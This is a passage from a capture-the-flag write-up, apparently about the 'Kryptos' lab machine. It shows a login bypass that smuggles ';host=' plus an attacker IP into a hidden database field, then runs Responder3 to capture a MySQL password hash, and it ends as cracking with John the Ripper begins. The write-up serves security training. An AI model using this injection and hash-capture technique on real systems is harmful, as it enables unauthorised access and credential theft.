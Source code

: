 
## Login bypass

By inspecting the source code of ```index.php```, it is possible to see that there are two hidden fields: 

1. **db**, which contains the value _cryptor_;
2. **token**, which contains an anti-XSRF token that changes to each refresh.

By modifying the value of db and putting something arbitrary, we get an error message: 

<pre><b>PDOException code: 1044</b></pre>

This error tells us that the database driver used is **PDO** and this input takes part to the construction of the connection string to the DB. We could find something similar to [this](https://www.php.net/manual/en/pdo.construct.php):

<pre>/* Connect to a MySQL database using driver invocation */
$dsn = 'mysql:dbname=cryptos';</pre>

but we would like to obtain

<pre>$dsn = 'mysql:dbname=cryptos<b>;host=pentest_box_ip_address_here</b>';</pre>

Therefore, we have to modify **db** accordingly:

	cryptos -> cryptos;host=10.10.16.44	

## Database Poisoning

We have to provide a fake server to allow the remote host to authenticate against us. [Responder3](https://github.com/skelsec/Responder3) comes in help:

	root@pentestbox:~# python3 ./Responder3.py -I tun0 -4 -6 -p examples/config_test.py

The provided parameters represent:

- **-p examples/config_test.py** --- Configuration file (Python).
- **-I tun0** --- Interface to bind to.
- **-4** --- IP version 4 to be used.
- **-6** --- IP version 6 to be used.

Let's then login with random credentials and: 

![](./images/kryptos/responder.png)

	$mysqlna$4141414141414141414141414141414141414141*b25658e4107b15ab804df5d06e47ee40a97f2a53

In this string, we do have the hashing algorithm used (_mysqlna_), the salt and the salted hash of the password used to login against the DB. With John the Ripper, it is possible to crack it. Lets put first the string obtained into a file, then run John:
